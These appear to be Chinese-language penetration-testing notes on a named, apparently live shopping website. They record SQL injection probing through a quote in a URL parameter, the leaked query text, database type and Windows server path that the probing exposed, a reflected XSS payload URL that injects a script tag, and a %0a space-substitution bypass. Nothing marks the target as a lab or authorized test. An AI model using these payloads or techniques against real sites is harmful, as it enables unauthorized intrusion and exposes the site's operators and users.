## 链接

[www.cn-hee.cn/index.php?app=store&id=2%27](http://www.cn-hee.cn/index.php?app=store&id=2')

![image-20220116043601777](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220116043601777.png)

由此可得

- '被转义为\

- 数据库为Mysql

- 此处的语句为

  ```sql
  SELECT COUNT(DISTINCT goods_id) as c FROM ecm_cart WHERE session_id='0df314d6a60df49c531cf60c022ac394' AND store_id=2\'
  ```

- 系统是Windows，文件目录是

  ```
  E:\PHPnow-1.5.6.1428396605\htdocs\eccore\model\mysql.php
  ```

  # 反射型XSS
  
  ```
  http://www.cn-hee.cn/index.php?app=search&act=index&store_id=2&keyword="><script>alert(1)</script>//
  ```

![image-20220118102857294](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220118102857294.png)







SQL语句为

```sql
SELECT *,cart.rec_id FROM ecm_cart cart WHERE session_id = 'd93634771d1675d2b726cebc851e2e0d' AND store_id=2
```

使用%0a成功执行为空格

![image-20220118103248624](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220118103248624.png)

